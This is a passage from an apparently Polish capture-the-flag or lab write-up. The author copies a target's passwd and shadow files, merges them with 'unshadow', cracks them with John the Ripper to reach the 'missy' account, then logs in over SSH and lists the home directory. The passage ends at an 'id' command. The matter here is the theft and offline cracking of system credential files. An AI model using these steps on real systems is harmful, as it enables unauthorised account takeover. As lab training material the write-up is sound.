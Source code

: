Mając dostęp do plików ```passwd``` i ```shadow``` mogę skopiować na swoją maszynę zawartość owych plików. Za pomocą polecenia ```unshadow passwd.txt shadow.txt > passwords.txt``` utworzyć plik, który John the Ripper może złamać.

![](/grafika/lamanie_hasel.png)

W ten sposób zdobyłem dostęp do konta ```missy```. ```John the Ripper``` nie jest w stanie złamać hasła ```root```. Sprawdzam co mogę zrobić po zalogowaniu się na nowe konto.

```
ssh missy@10.10.58.95  
(missy@10.10.58.95) Password: 
Last login: Mon Jun  7 21:19:11 2021

[missy@ip-10-10-58-95 ~]$ ls
Desktop  Documents  Downloads  Music  perl5  Pictures  Public  Templates  Videos

[missy@ip-10-10-58-95 ~]$ ls -la
total 40
drwx------. 16 missy missy 4096 Jun  7  2021 .
drwxr-xr-x.  5 root  root    50 Jun  7  2021 ..
-rw-------.  1 missy missy  203 Jun  7  2021 .bash_history
-rw-r--r--.  1 missy missy   18 Apr  1  2020 .bash_logout
-rw-r--r--.  1 missy missy  193 Apr  1  2020 .bash_profile
-rw-r--r--.  1 missy missy  231 Apr  1  2020 .bashrc
drwxrwxr-x. 13 missy missy  270 Jun  7  2021 .cache
drwxrwxr-x. 15 missy missy  245 Jun  7  2021 .config
drwx------.  3 missy missy   25 Jun  7  2021 .dbus
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Desktop
drwxr-xr-x.  2 missy missy   23 Jun  7  2021 Documents
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Downloads
-rw-r--r--.  1 missy missy  334 Nov 27  2019 .emacs
-rw-------.  1 missy missy   16 Jun  7  2021 .esd_auth
-rw-------.  1 missy missy  310 Jun  7  2021 .ICEauthority
-rw-r--r--.  1 missy missy  172 Apr  1  2020 .kshrc
drwxrwxr-x.  3 missy missy   19 Jun  7  2021 .local
drwxr-xr-x.  4 missy missy   39 Jun  7  2021 .mozilla
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Music
drwxrwxr-x.  2 missy missy    6 Jun  7  2021 perl5
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Pictures
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Public
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Templates
drwxr-xr-x.  2 missy missy    6 Jun  7  2021 Videos
-rw-r--r--.  1 missy missy  658 Apr  7  2020 .zshrc

[missy@ip-10-10-58-95 ~]$ id
```